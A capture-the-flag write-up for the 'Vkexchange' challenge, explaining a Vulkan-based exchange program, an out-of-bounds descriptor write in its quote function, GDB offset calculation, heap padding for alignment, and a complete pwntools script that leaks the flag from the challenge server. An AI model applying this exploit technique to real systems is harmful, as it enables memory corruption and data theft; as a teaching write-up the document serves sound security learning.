


+++
date = '2026-04-27T09:21:49+05:30'
draft = false 
title = 'Vkexchange'
+++

### i built a stock market exchange using vulkan! but somethings wrong, i can feel it.

Files provided: 

- [settlement.comp](files/settlement.comp)
- [vkexchange.c](files/vkexchange.c)
- [Makefile](files/Makefile)
- [Dockerfile](files/Dockerfile)

# what the heck is Vulkan? 

Vulkan is a modern graphics and compute API which provides direct GPU control. Vulkan has the advantage of being fully cross-platform and allows you to develop for Windows, Linux and Android at the same time. The trade-off for these benefits is that every detail related to the graphics API needs to be set up by your application (such as initial frame buffer and memory management).[Vulkan Documentation][1]

### if Vulkan is an API for Graphics, what is it doing in a stock market exchange program? 

Well turns out Vulkan can also do maths, way faster than I could ever dream of. It does this using [Compute Shaders][2]. The author, in his infinite wisdom has decided to use this instead of... idk...writing a normal program? (I have no idea how stock market exchange programs work).


We need to understand some things before we can proceed:
- The storage type that is used in this particular program is a Shader storage buffer object(SSBO). This is what allows the shader to read from and write to a buffer.
- A Descriptor set - Think of a single descriptor as a pointer or a handle to a resource, A VkDescriptorSet is a pack of those pointers that are bound together.(Like a table of contents)
- Descriptor sets can't be created directly, they must be allocated from a pool like [command buffers][3].

# vkexchange.c 

I am not going to explain 898 lines of unhinged C code, so I will give a high level overview of the important things and then we can get to the actual vulnerability.

If we look at the code for `init_vulkan()`, we notice two things that stand out: 

- `features.robustBufferAccess = VK_FALSE;` - tells the vulkan driver not to check array bounds when reading or writing memory. That's suspicious.

- In `choose_device()` -   `bool is_lvp = strstr(props.deviceName, "llvmpipe") || strstr(props.deviceName, "lavapipe");` - lavapipe and llvmpipe are CPU based, meaning vulkan doesn't use the GPU, but the CPU for this program. Well that's cool. 

## Building the exchange

- `host_alloc` , `host_realloc` and `host_free` allocate everything in a sequential 16MB array called `host_arena`. This puts all the vulkan objects into a clean, flat memory layout.
- `create_market_layouts` : Defines the rules for the buffers. It says the Quote Book gets 1 slot, Markets get X slots, and the Settlement Book gets 2 slots.
- `create_settlement_pipeline` - loads the `settlement.comp` shader.
- `init_resolution` - grabs the flag and puts it into the `oracle_buf` memory.
- `open_order_books` - Creates the descriptor pool and allocates the descriptor set in memory(in this order: `quote_book` -> `markets` -> `settlement_book`)

## User interface

- `menu_open_account` - opens an account, do I really need to explain this? 
- `menu_fund_account` - Funding it lets you write hex bytes into it
- `menu_audit_account` - prints the bytes out to the screen
- `menu_list_market` - Allows you to define how many `outcome_slots` and `memo_bytes` a new market should have.
- `menu_quote_position` - allow a user to submit their trading position to a specific index in the public Quote Book
- `menu_settle` - calls `vkCmdDispatch`, telling the GPU to go brr, or the CPU in this case. (basically executes the copy instruction to copy from OracleBook to ClearingBook)


# settlement.comp

This file is the compute shader, it's written in GLSL (OpenGL Shading Language) and is the code that runs on the GPU. 
When running the Makefile and compiling, the `glslangValidator` tool translates it into a GPU-readable bytecode format called SPIR-V and packs it into a `shader_spv.h` header file in the C program. Fascinating innit.

`layout(local_size_x = 1, local_size_y = 1, local_size_z = 1) in;` - forces the GPU to run this shader on a single threaded.

### Push constants

```C
layout(push_constant) uniform Push {
    uint mode;
    uint index;
    uint value;
} push;
```

Push Constants are Vulkan's way of sending a tiny amount of data (usually a few bytes) directly to the GPU as fast as possible, without needing to allocate a whole memory buffer.

### The Buffers (SSBOs)

```C
layout(set = 0, binding = 0) readonly buffer OracleBook {
    uint oracle_words[];
};

layout(set = 0, binding = 1) writeonly buffer ClearingBook {
    uint clearing_words[];
};
```

The `OracleBook` is marked readonly and the `ClearningBook` is writeonly.

### The main function

```C
void main() {
    if (push.index >= 64) {
        return;
    }
```

It first does a bounds check and quits if you ask for an index greater than 64. Because uint is 4 bytes, 64 * 4 = 256 bytes. This limits the settlement to a maximum of 256 bytes of data.

```C 
    if (push.mode == 0) {
        clearing_words[push.index] = oracle_words[push.index];
    } else if (push.mode == 1) {
        clearing_words[0] = oracle_words[push.index];
    } else if (push.mode == 2) {`
        clearing_words[push.index] = push.value;
    }
```

In the C code, push.mode is harcoded to 0, so only the first condition is executed. It just copies the stock price from OracleBook buffer into the ClearingBook buffer for payout.


# The vulnerability

The vulnerability is a OOB(Out Of Bounds) Write in `menu_quote_position()`, let's trace it step by step.

It first asks you for the `price_index`,

```C
uint64_t idx = ask_u64("price_index: ");
if (idx < MIN_PRICE_INDEX || idx > MAX_PRICE_INDEX) { // MIN_PRICE_INDEX = 32768 and MAX_PRICE_INDEX = 300000
    puts("bad price index");
    return;
}
```

It then passes this index to a helper function: 

```C
update_storage_desc(app, app->quote_book, 0, (uint32_t)idx, b->buf, off, range);
```

inside `update_storage_desc`, it formats a VkWriteDescriptorSet and fires it at the vulkan driver.

```C
  VkWriteDescriptorSet write = {
      .sType = VK_STRUCTURE_TYPE_WRITE_DESCRIPTOR_SET, 
      .dstSet = set, // quote_book 
      .dstBinding = binding,
      .dstArrayElement = array_elem, // The index we passed
      .descriptorCount = 1,
      .descriptorType = VK_DESCRIPTOR_TYPE_STORAGE_BUFFER,
      .pBufferInfo = &info, // our account buffer
  };
  vkUpdateDescriptorSets(app->device, 1, &write, 0, NULL);
```

So it's writing the address of our account to `quote_book`.
But if we look at the layout for `quote_book` created back in `create_market_layouts`, its defined as follows:

```C 
   VkDescriptorSetLayoutBinding quote_bindings[2] = {
        {
            .binding = 0,
            .descriptorType = VK_DESCRIPTOR_TYPE_STORAGE_BUFFER,
            .descriptorCount = 1, // only 1 slot
```

The `quote_book` only has 1 descriptor(index 0) so when we provide a large index, anything other than 0, it does the following: 
`destination_mem = address_of_quote_book + (index * size_of_descriptor(32 bytes))`

The lavapipe driver packages our account pointer into a perfectly formatted 32-byte Descriptor object and writes that entire 32-byte chunk to our calculated destination.


well that doesn't sound good... 


This means that we can write the address of our account... but where?


# We can write! now what? 

Remember that the descriptors are allocated in this order:
`quote_book` -> `markets` -> `settlement_book`

We can just hijack the `clearing_buf`(which is in `settlement_book`) pointer and have it point to our account. 

We can read bytes from our account using `menu_audit_account`. and the flag(which is on `oracle_buf`) is copied to `clearing_buf` when `settlement.comp` is triggered, making it our perfect target.

# GDB my beloved

For this, we first need to cacluate the offset and the index we need to provide in order to write the address to the correct place. In other words we need to find the distance between `quote_book` and `settlement_book`.


In order to hook up GDB and get it working, I had to make some changes to the `Dockerfile` as well as the `Makefile`

### in the Makefile: 

```
CFLAGS += -std=c11 -Wall -Wextra -Wpedantic -D_FORTIFY_SOURCE=2 -g
# ...
strip: $(TARGET)
	# strip $(TARGET)
```

comment out the strip command, and add `-g` to the compilation flag to compile it with debug symbols.

### in the Dockerfile: 

- Add GDB to the apt-get run command. 
- remove `&& strip ./vkexchange` in the build step.

Next, we build the docker container, 

```
docker build --target app -t vk-debug .
```


Let's run this container and get a shell so that we can run `gdb ./vkexchange` and debug the offset we need. 

```
docker run --rm -it --privileged vk-debug /bin/bash
```

Let's run the binary, create an account, create a market with 32768 to satisfy the index requirements of `menu_quote_position` and open the exchange

We can then interrupt the program, go up the stack frame back to main, and then print the addresses we want. 



```
(gdb) p/x app.quote_book
$1 = 0x555555655fa0
(gdb) p/x app.settlement_book
$2 = 0x555555756098
```

doing some simple maths, 

`0x555555756098 - 0x555555655fa0 = 1048824`

That is the distance to the start of the `settlement_book`. But remember, the `settlement_book` has two bindings: `OracleBook` at index 0, and `ClearingBook` at index 1. Since each descriptor in lavapipe is exactly 32 bytes long, we need to add 32 bytes to reach the `ClearingBook`, which gives us `1048824 + 32 = 1048856`

Now we just divide by 32 since each index is multiplied by 32 annnddd we get,

`1048856/32 = 32776.75 `, huh... 


We can't just provide 32776 as we would be off by 24 bytes from where we want to be. So what do we do?

# Heap Shenanigans

All this data is stored on the heap, so let's try to shift the heap a little so that we somehow get a distance that is perfectly divisible by 32.
We can do this by creating tiny markets that act as padding 

- A market descriptor set header: 88 bytes (this can be inferred from GDB)
- 1 outcome slot (the descriptor): 32 bytes.
- Total size of a 1-slot market: 120 bytes

So everytime we call `menu_list_market`, we push `settlement_book` 120 bytes further down the heap.

Add 1 Market: 24 + 120 = 144 bytes. (144 % 32 != 0)
Add 2 Markets: 24 + 240 = 264 bytes. (264 % 32 != 0)
Add 3 Markets: 24 + 360 = 384 bytes. (384 % 32 == 0) !!!

by allocating 3 markets, we can fix the alignment issue, so our new total distance is `1048856 + 360 = 1049216`

`1049216/32 = 32788`


Perfect!

# The holy sequence 

- Create an account.
- create the primary market that satisfies the index requirements (32768).
- Create 3 tiny markets to shift the heap and align the address properly.
- arm the exchange . (calls `open_order_books` which builds the descriptor pool and loads the flag into memory)
- Provide the index to `quote_position`. (overwrite ClearingBook with our account address)
- settle round 0, (read 4 bytes of flag and put it into our account buffer).
- audit the aaccount (read the leak).



What's that? That's the hex bytes of `UMDC`.

Now we just need to script this and leak the rest of the flag. Final exploit script: 

```Python
from pwn import *

p = remote('challs.umdctf.io', 30305)

def send_cmd(c):
    p.sendlineafter(b'> ', str(c).encode())

# Open account
send_cmd(1)
p.sendlineafter(b'bytes: ', b'4096')
p.recvuntil(b'account: ')
p.recvline()

# List markets (need 32768 total slots + extra to get right offset)
send_cmd(4)
p.sendlineafter(b'outcome_slots: ', b'32768')
p.sendlineafter(b'memo_bytes: ', b'0')
for _ in range(3):
    send_cmd(4)
    p.sendlineafter(b'outcome_slots: ', b'1')
    p.sendlineafter(b'memo_bytes: ', b'0')

# Open exchange
send_cmd(5)
p.recvuntil(b'exchange open\n')

# OOB hijack
send_cmd(6)
p.sendlineafter(b'price_index: ', b'32788')
p.sendlineafter(b'account: ', b'0')
p.sendlineafter(b'offset: ', b'0')
p.sendlineafter(b'range: ', b'4096')
p.recvuntil(b'quoted\n')

# Drain flag word by word
flag = b''
for word in range(64):
    send_cmd(7)
    p.sendlineafter(b'round: ', str(word).encode())
    p.recvuntil(b'settled\n')

    send_cmd(3)
    p.sendlineafter(b'account: ', b'0')
    p.sendlineafter(b'offset: ', str(word * 4).encode())
    p.sendlineafter(b'bytes: ', b'4')
    chunk = bytes.fromhex(p.recvline().strip().decode())
    flag += chunk
    print(f"word {word:02d}: {chunk} | {flag}")
    if b'\x00' in chunk:
        break

print(f"\nFLAG: {flag.split(b'\\x00')[0].decode()}")
p.close()
```

And we get the full flag!
I now have the highest form of respect for anyone who writes Vulkan code, and I hope segal stubs his toe for making this challenge.


[1]: https://docs.vulkan.org/tutorial/latest/00_Introduction.html#:~:text=About-,This,behavior,-%2E
[2]: https://vulkan-tutorial.com/Compute_Shader#:~:text=An%20important%20concept%20introduced%20with%20compute%20shaders%20is%20the%20ability%20to%20arbitrarily%20read%20from%20and%20write%20to%20buffers%2E%20For%20this%2C%20Vulkan%20offers%20two%20dedicated%20storage%20types
[3]: https://docs.vulkan.org/spec/latest/chapters/cmdbuffers.html


